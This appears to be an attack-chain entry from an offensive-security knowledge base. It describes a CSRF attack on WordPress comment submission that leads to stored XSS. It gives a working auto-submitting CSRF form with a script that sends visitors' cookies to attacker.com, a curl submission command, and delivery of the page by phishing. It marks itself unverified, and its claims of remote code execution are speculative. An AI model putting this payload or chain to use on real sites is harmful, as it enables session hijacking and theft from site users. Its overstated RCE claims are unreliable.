

---
tags:
  - csrf
  - html-injection
  - wordpress
  - xss
  - rce
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-WordPress-Comments-CSRF-for-HTML-Injection]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:27:57.705Z'
description: >-
  A multi-stage attack exploiting a CSRF vulnerability in WordPress comment
  submission to inject malicious HTML, enabling stored XSS and potential remote
  code execution on the server or client side.
skill_level: intermediate
impact_level: high
id: 2ce5776d-f9e8-458c-9520-3b24425bfabd
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# CSRF to HTML Injection in WordPress Comments Leading to Potential RCE

Multi-stage attack chain demonstrating exploitation of a CSRF vulnerability in WordPress comment functionality to inject malicious HTML without direct user interaction, leading to stored cross-site scripting (XSS) and potential remote code execution (RCE) as the injected HTML can execute JavaScript in the context of other users viewing the comments.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for crafting HTML
- [[commands/curl-submit-csrf-comment]]

### Target Environment

- WordPress instance with comments enabled
- PHP-based web server
- No CSRF token validation on comment submission endpoint

### Initial Access Requirements

- Victim must be an authenticated WordPress user (e.g., logged in to post comments)
- Attacker needs to host a malicious webpage or email it to the victim
- Network access to the WordPress site from the victim's browser

## Detailed Attack Procedures

### Step 1: Prepare Malicious Payload

procedure: [[procedures/Exploit-WordPress-Comments-CSRF-for-HTML-Injection]]

**Objective**: Craft a malicious HTML payload that will be injected via CSRF into a WordPress comment, enabling XSS execution when viewed by other users.

**Instructions**: Identify the target post ID on the WordPress site (e.g., via browsing to a blog post). Create an HTML form that auto-submits the malicious comment using JavaScript. The payload should include script tags for XSS, such as `<script>alert('XSS');</script>` or more advanced JavaScript to steal cookies or perform further actions leading to RCE if chained with other vulns.

Host this form on an attacker-controlled server. Example malicious HTML:

```html
<html>
<body>
<form action="https://target.wordpress-site.com/wp-comments-post.php" method="post" id="csrf-form">
    <input type="hidden" name="comment" value="Malicious HTML: <script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>">
    <input type="hidden" name="comment_post_ID" value="123">
    <input type="hidden" name="submit" value="Post Comment">
</form>
<script>document.getElementById('csrf-form').submit();</script>
</body>
</html>
```

**Expected Output**: A hosted malicious page ready for delivery to the victim.

**Success Indicators**:
- Malicious HTML page loads and auto-submits without errors in browser console
- Form fields match the WordPress comment submission parameters

### Step 2: Deliver CSRF Attack and Verify Injection

procedure: [[procedures/Exploit-WordPress-Comments-CSRF-for-HTML-Injection]]

**Objective**: Trick the authenticated victim into visiting the malicious page, triggering the CSRF submission to inject the HTML, then verify the injection and exploit for XSS or RCE.

**Instructions**: Send the malicious page URL to the victim via phishing email or social engineering. Once visited, the form submits automatically, injecting the HTML into the comments. Use [[commands/curl-submit-csrf-comment]] to test the endpoint manually if needed for validation:

```bash
curl -X POST https://target.wordpress-site.com/wp-comments-post.php \
  -d "comment=<script>alert('XSS');</script>" \
  -d "comment_post_ID=123" \
  -d "submit=Post Comment" \
  --referer "https://attacker.com/malicious"
```

Browse to the target post to view comments and confirm the injected HTML renders as executable script. If successful, the script executes in viewers' browsers, potentially leading to session hijacking or further RCE via chained exploits (e.g., admin dashboard access).

**Expected Output**: Comment appears on the post with executable HTML/JS.

**Success Indicators**:
- No CSRF token error on submission
- Alert or network request to attacker server triggers on comment view
- Potential RCE if injected script enables server-side execution (e.g., via admin privileges)

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to inject HTML without victim interaction beyond page visit
2. Achieved stored XSS via comment rendering, impacting all viewers
3. Enabled potential RCE through escalated JavaScript execution in authenticated contexts

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
